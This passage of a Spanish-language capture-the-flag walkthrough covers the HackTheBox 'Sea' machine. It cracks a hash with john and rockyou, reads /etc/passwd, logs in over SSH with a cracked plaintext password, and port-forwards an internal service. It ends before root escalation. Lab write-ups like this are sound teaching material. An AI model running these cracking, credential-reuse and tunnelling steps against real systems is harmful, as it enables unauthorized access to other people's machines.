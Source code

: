 vemos un hash que podemos romper

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![[Pasted image 20241227191817.png]]

si ahora grepeamos el etc/passwd

```bash
www-data@sea:/var/www/sea/data$ cat /etc/passwd | grep 'sh$'

root:x:0:0:root:/root:/bin/bash
amay:x:1000:1000:amay:/home/amay:/bin/bash
geo:x:1001:1001::/home/geo:/bin/bash
```

vemos un usuarioa llamado amay

de elcual es la contraseña

```bash
sshpass -p 'mychemicalromance' ssh -o stricthostkeychecking=no amay@10.10.11.28
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sea/Pasted-image-20241228174339.png]]


## root

si intentamos acer un sudo -l vemos que no tenemos ni permisos
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sea/Pasted-image-20241228174919.png]]

podriamos ejecutar un linpheas pero como ya me se la mquina paso

si hacemos un ss -nltp vemos lo siguiente
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sea/Pasted-image-20241228175046.png]]

vemos dos puertos nuevos.
el 8080 y el 44109
por lo que interesante

el unic que tiene algo es el 8080 por lo que nos lo vamos a pasar de la siguiente forma para tener visivilidad sobre el

```bash
sshpass -p 'mychemicalromance' ssh -o stricthostkeychecking=no -L 4444:127.0.0.1:8080 amay@10.10.11.28
```

perfecto ahora nuestro puerto 4444 es el 8080 de la mquina
por lo que si vamos a http://127.0.0.1:4444 veremos lo siguiente

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sea/Pasted-image-20241228175835.png]]

si probamos con las credenciales que ya teniamos
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sea/Pasted-image-20241228180148.png]]
